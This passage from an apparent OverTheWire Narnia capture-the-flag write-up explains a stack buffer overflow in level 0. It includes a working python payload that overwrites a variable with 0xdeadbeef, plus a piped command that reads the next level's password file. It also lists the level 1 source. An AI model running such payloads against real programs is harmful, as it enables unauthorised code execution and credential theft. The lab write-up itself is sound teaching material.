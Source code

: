 {% endhighlight %}

This is as simple as buffer overflows get - `buf` is 20 bytes long but the
`scanf` reads in 24 bytes, allowing you to overwrite the next value on the
stack - in this case `val`. If `val` is `0xdeadbeef` we get a shell. I didn't
bother writing a script for this one and used python to construct an input
string (making sure to reverse the order of bytes for `0xdeadbeef` since this
is a little endian system).

{% highlight bash %}
narnia0@melinda:/narnia$ python -c 'print "A"*20+"\xef\xbe\xad\xde"' | ./narnia0                          
Correct vals value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAA
val: 0xdeadbeef
narnia0@melinda:/narnia$ id
uid=14000(narnia0) gid=14000(narnia0) groups=14000(narnia0)
narnia0@melinda:/narnia$ 
{% endhighlight %}

Well, it looks like we're passing the value check - no "WAY OFF!!!!" message
but we still don't seem to have `narnia1` privileges... This is because the
bash `|` replaces `stdin` for `./narnia0` with a pipe from the `stdout` of my
python command. This causes `/bin/sh` to get an `EOF` after the python command
completes, closing the process before I can interact with it. We should be able
to pass it the command we want to execute after our python code via the same
pipe.

{% highlight bash %}
narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"'; echo "cat /etc/narnia_pass/narnia1") | ./narnia0 
Correct vals value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
XXXXXXXXXX
narnia0@melinda:/narnia$ 
{% endhighlight %}

Success, on to the next one.

## Level1 &rarr; Level2 {#level2}

{% highlight c %}
#include <stdio.h>

int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){
                printf("Give me something to execute at the env-variable EGG\n");
                exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
}
{% endhighlight %}

